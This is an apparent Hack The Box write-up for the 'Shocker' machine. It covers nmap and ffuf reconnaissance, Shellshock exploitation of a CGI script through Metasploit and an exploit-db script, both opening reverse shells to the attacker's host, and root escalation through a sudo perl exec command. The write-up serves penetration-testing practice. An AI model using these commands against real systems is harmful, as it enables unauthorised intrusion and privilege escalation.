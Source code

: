 # Shocker-HTB
Shocker is a Linux machine that is rated as easy, we can get a shell by using Metasploit or by using a exploit-db exploitation

# Recon
I started by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV  10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 22:00 EDT
Nmap scan report for 10.10.10.56
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```
## ffuf
I will be using ffuf to fuze web directories.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u http://10.10.10.56/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
:: Progress: [3024/3024] :: Job [1/1] :: 1512 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
So we need to fuzz more inside ```cgi-bin```. After a long time of fuzzing I was able to find the file:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w big.txt -u http://10.10.10.56/cgi-bin/FUZZ.sh          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/cgi-bin/FUZZ.sh
 :: Wordlist         : FUZZ: big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

user                    [Status: 200, Size: 119, Words: 19, Lines: 8]
:: Progress: [3025/3025] :: Job [1/1] :: 1512 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
So there is a file called ```user.sh```. At this point there is 2 ways to get a shell, by using Metasploit or by using a exploit-db exploit.

## Metasploit
Module: ```exploit/multi/http/apache_mod_cgi_bash_env_exec```

Proof:
```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options 

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 10.10.10.56
RHOSTS => 10.10.10.56
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.28:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.56:59904) at 2020-08-25 22:21:01 -0400

meterpreter > getuid 
Server username: no-user @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
```
## Exploit-db
Exploitation: https://www.exploit-db.com/exploits/34900

```
┌──(kali㉿kali)-[~/Desktop/HTB/Shocker]
└─$ python shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.28 lport=5555 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) 
```

# User Flag
Get the User flag:
```
10.10.10.56> cat user.txt
2ec24e11...3e16695b233
```

# Root Flag
By runing ```sudo -l``` we can see that we can run ```perl``` with sudo.
```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
To get a root shell you just need to run this command ```sudo /usr/bin/perl -e 'exec "/bin/sh"' ```
```
10.10.10.56> sudo /usr/bin/perl -e 'exec "/bin/sh"'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)
```
And we can get root flag :)
```
10.10.10.56> cat root.txt
52c271560...60dc1ca467
```

Note: you can find more like this command ```sudo /usr/bin/perl -e 'exec "/bin/sh"' ``` from https://gtfobins.github.io/

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
